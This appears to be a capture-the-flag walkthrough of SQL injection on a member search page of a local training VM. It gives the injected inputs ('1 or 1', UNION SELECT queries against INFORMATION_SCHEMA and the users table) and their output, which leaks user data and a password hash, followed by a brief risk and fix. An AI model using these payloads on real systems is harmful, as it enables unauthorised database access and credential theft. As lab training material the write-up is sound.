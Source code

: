 # Member Search

http://192.168.56.101/index.php?page=member

Looks like some sort of SQL injection

Entering `1 or 1` in the search field shows (I assume) all users in database:

```
ID: 1 or 1
First name: Barack Hussein
Surname : Obama

ID: 1 or 1
First name: Adolf
Surname : Hitler

ID: 1 or 1
First name: Joseph
Surname : Staline

ID: 1 or 1
First name: Flag
Surname : GetThe
```

Maybe the code looks something like this

```js
query("SELECT firstname, lastname FROM users WHERE id = " + input)
```

This gives us some good information about users

```
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```
ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
```

Querying `Commentaire` returns this

```
ID: 1 UNION SELECT user_id, Commentaire FROM users
First name: 5
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

And querying `countersign` returns a hashed password

```
ID: 1 UNION SELECT user_id, countersign FROM users
First name: 5
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Pasting that hash into Google gives you `FortyTwo`

## Risk

User could access sensitive information

## Fix

Validate data received from request
